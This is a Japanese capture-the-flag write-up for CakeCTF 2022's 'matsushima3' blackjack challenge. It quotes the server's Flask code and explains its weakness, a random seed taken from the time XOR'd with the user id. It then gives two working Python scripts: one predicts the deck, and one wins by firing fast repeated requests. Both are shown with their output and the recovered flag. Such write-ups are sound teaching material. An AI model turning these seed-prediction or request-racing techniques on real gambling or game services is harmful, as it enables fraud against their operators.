

# matsushima3:cheat:196pts
Are you a gambler?  

[matsushima3_d9f7e86a2224cbdcf78335772d534c42.tar.gz](matsushima3_d9f7e86a2224cbdcf78335772d534c42.tar.gz)  

# Solution
ファイルが配布されるので、解凍する。  
中にはサーバapp.pyとクライアントgame.pyが含まれていた。  
実行するとオールベットなブラックジャックがプレイできるゲームのようだ。  
  
クライアントのソースコードをざっと読むと、接続先と送信データがわかる。  
まとめると以下のようであった。  
```
Host: misc.2022.cakectf.com
Port: 10011
Endpoint:
    'user/new'
    'game/new'
    'game/act', {'action': 'hit'}
    'game/act', {'action': 'stand'}
```
基本的にセッションでやり取りされているためクライアントの改造は重要ではなく、攻略すべきはサーバになる。  
サーバのソースコードを読むと以下の通りであった。  
```python
~~~
@app.before_request
def before_request():
    if 'state' in session and session['state'] == GameState.PLAYER_CHEAT:
        abort(400, "Cheat detected")


@app.route('/user/new')
def user_new():
    """Create a new session"""
    session['money'] = 100
    session['state'] = GameState.PLAYER_DRAW
    session['user_id'] = random.randrange(0, 1000000000)
    return jsonify({'money': session['money'], 'user_id': session['user_id']})

@app.route('/game/new')
def game_new():
    """Create a new game"""
    if session['state'] == GameState.IN_PROGRESS:
        # Player tried to abort game
        session['state'] = GameState.PLAYER_CHEAT
        abort(400, "Cheat detected")

    # Shuffle cards
    deck = [(i // 13, i % 13) for i in range(4*13)]
    random.seed(int(time.time()) ^ session['user_id'])
    random.shuffle(deck)
    session['deck'] = deck

    # Create initial hand
    session['player_hand'] = []
    session['dealer_hand'] = []
    for i in range(2):
        session['player_hand'].append(session['deck'].pop())
        session['dealer_hand'].append(session['deck'].pop())
~~~
@app.route('/game/act')
def game_act():
    """Player action"""
    if session['state'] != GameState.IN_PROGRESS:
        # Player tried to use expired game
        session['state'] = GameState.PLAYER_CHEAT
        abort(400, "Cheat detected")
~~~
    # Special bonus
    if session['money'] > 999999999999999:
        flag = os.getenv('FLAG', "CakeCTF{**** REDUCTED ****}")
        state = 'flag'
    else:
        flag = ''
~~~
```
フラグはスコアが`999999999999999`を超えると取得できるようだ。  
これは43連勝すると超えることができる。  
各エンドポイントには、チート防止のため重複での呼び出しが無効化されている。  
一見脆弱性はないようだが、以下に注目する。  
```python
@app.route('/user/new')
~~~
    session['money'] = 100
    session['state'] = GameState.PLAYER_DRAW
    session['user_id'] = random.randrange(0, 1000000000)
    return jsonify({'money': session['money'], 'user_id': session['user_id']})

@app.route('/game/new')
~~~
    # Shuffle cards
    deck = [(i // 13, i % 13) for i in range(4*13)]
    random.seed(int(time.time()) ^ session['user_id'])
    random.shuffle(deck)
    session['deck'] = deck
~~~
```
ユーザを新規に作成した時点で`user_id`を結果として返し、それと`int(time.time())`でXORをとったものをseedにしデッキをシャッフルしている。  
つまりサーバとの時間のズレが少ないマシンを使い、自身の初期の手札からデッキの初期カード配列を決定できる。  
以下の関数で行う(前後10秒のズレを総当たりしている)。  
```python
def future_prediction(user_id, player_hand):
    now_t = int(time.time())
    for i in range(now_t - 10, now_t + 10):
        deck = [[j // 13, j % 13] for j in range(4*13)]
        random.seed(i ^ user_id)
        random.shuffle(deck)
        if (player_hand[0] == deck[-1]) and (player_hand[1] == deck[-3]):
            return deck
    return []
```
これにより、相手の手札とデッキのカードがわかる状態でブラックジャックをプレイできる。  
効率的な勝ち方は考えられるが、面倒なのでbustしない程度に21に限りなく近くなるまでhitしまくる戦略をとり様子を見る。  
以下のいい加減なスクリプトで行う。  
```python
import sys
import json
import time
import random
import requests


# by app.py
def calculate_score(cards):
    """Calculate current total of cards"""
    num_ace = 0
    score = 0
    for _, c in cards:
        if c == 0: num_ace += 1
        elif c < 10: score += c + 1
        else: score += 10

    while num_ace > 0:
        if 21 - score >= 10 + num_ace: score += 11
        else: score += 1
        num_ace -= 1

    return -1 if score > 21 else score


def future_prediction(user_id, player_hand):
    now_t = int(time.time())
    for i in range(now_t - 10, now_t + 10):
        deck = [[j // 13, j % 13] for j in range(4*13)]
        random.seed(i ^ user_id)
        random.shuffle(deck)
        if (player_hand[0] == deck[-1]) and (player_hand[1] == deck[-3]):
            return deck
    return []


session = requests.Session()
r = session.get("http://misc.2022.cakectf.com:10011/user/new")
user_id = json.loads(r.content)["user_id"]

while True:
    r = session.get("http://misc.2022.cakectf.com:10011/game/new")
    #print(r.content) #Debug
    player_hand = json.loads(r.content)["player_hand"]
    deck = future_prediction(user_id, player_hand)
    dealer_hand = [deck[-2], deck[-4]]
    deck = deck[:-4]

    player_score = calculate_score(player_hand)
    dealer_score = calculate_score(dealer_hand)

    #print("+----------New----------+")
    #print(deck)
    #print(f"PlayerHand:{player_hand} [{player_score}]")
    #print(f"DealerHand:{dealer_hand} [{dealer_score}]")

    for i in range(len(deck)):
        if calculate_score(player_hand + deck[-i:]) != -1:
            r = session.get("http://misc.2022.cakectf.com:10011/game/act", params={"action": "hit"})
            #print(r.content) #Debug
            if b"CakeCTF" in r.content: 
                print(json.loads(r.content.decode())["flag"])
                sys.exit()
            if (b"win" in r.content) or (b"draw" in r.content):
                break
            if b"lose" in r.content:
                session = requests.Session()
                r = session.get("http://misc.2022.cakectf.com:10011/user/new")
                user_id = json.loads(r.content)["user_id"]
                break
    else:
        r = session.get("http://misc.2022.cakectf.com:10011/game/act", params={"action": "stand"})
        #print(r.content) #Debug
        if b"lose" in r.content:
            session = requests.Session()
            r = session.get("http://misc.2022.cakectf.com:10011/user/new")
            user_id = json.loads(r.content)["user_id"]
```
実行する。  
```bash
$ python satoki_blackjack.py
"CakeCTF{INFAMOUS_LOGIC_BUG}"
```
flagは得られた。  
よくもまあこんな雑さで動いたなと思っていると、リクエストが速いため同じ手(サーバ内が同じ時間)で複数回勝利していた。  
つまり乱数の予測など不要であり、高速にリクエストを送る以下のスクリプトで事足りる(速度にもよるが、手札から見るに2~3回程度強めのカードが来ればよい)。  
```python
import json
import requests

session = requests.Session()
session.get("http://misc.2022.cakectf.com:10011/user/new")
while True:
    res = session.get("http://misc.2022.cakectf.com:10011/game/new").text
    #print(f"player_hand: {json.loads(res)['player_hand']}")
    res = session.get("http://misc.2022.cakectf.com:10011/game/act", params={"action": "stand"}).text
    if "CakeCTF" in res:
        print(f"flag: {json.loads(res)['flag']}")
        break
    if "lose" in res:
        session.get("http://misc.2022.cakectf.com:10011/user/new")
    print(f"money: {json.loads(res)['money']}")
```
適切な性能を持つ回線と端末で実行する。  
```bash
$ python satoki_blackjack_kai.py
~~~
money: 219902325555200
money: 439804651110400
money: 879609302220800
flag: "CakeCTF{INFAMOUS_LOGIC_BUG}"
```
flagが得られた。  

## CakeCTF{INFAMOUS_LOGIC_BUG}